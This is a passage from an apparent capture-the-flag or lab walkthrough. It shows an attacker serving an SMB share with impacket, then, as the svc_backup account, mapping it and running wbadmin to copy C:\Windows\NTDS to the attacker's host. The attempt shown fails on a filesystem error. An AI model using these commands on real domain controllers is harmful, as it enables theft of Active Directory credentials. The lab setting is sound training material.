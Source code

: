 `sudo mount -t ntfs-3g /dev/loop0 ./smbshare`

`mount | grep 'smbshare'`:
```
/dev/loop0 on /home/kali/smbshare type fuseblk (rw,relatime,user_id=0,group_id=0,allow_other,blksize=4096) ←
```

`impacket-smbserver -user 'smbuser' -password 'smbpass' -smb2support 'smbshare' ./smbshare`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed

[...]
```

![Victim: svc_backup](https://custom-icon-badges.demolab.com/badge/Victim-svc%5F_backup-64b5f6?logo=windows11&logoColor=white)

`net use K: \\10.10.14.22\smbshare /user:smbuser smbpass`:
```
The command completed successfully.
```

`echo "Y" | wbadmin start backup -backuptarget:\\10.10.14.22\smbshare -include:C:\Windows\NTDS`:
```
wbadmin 1.0 - Backup command-line tool
(C) Copyright Microsoft Corporation. All rights reserved.


Note: The backed up data cannot be securely protected at this destination.
Backups stored on a remote shared folder might be accessible by other
people on the network. You should only save your backups to a location
where you trust the other users who have access to the location or on a
network that has additional security precautions in place.

Retrieving volume information...
This will back up (C:) (Selected Files) to \\10.10.14.22\smbshare.
Do you want to start the backup operation?
[Y] Yes [N] No Y

A backup cannot be done to a remote shared folder which is not hosted on a volume formatted with NTFS/ReFS. ←
```
❌

`net use K: /delete`:
```
K: was deleted successfully.
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)
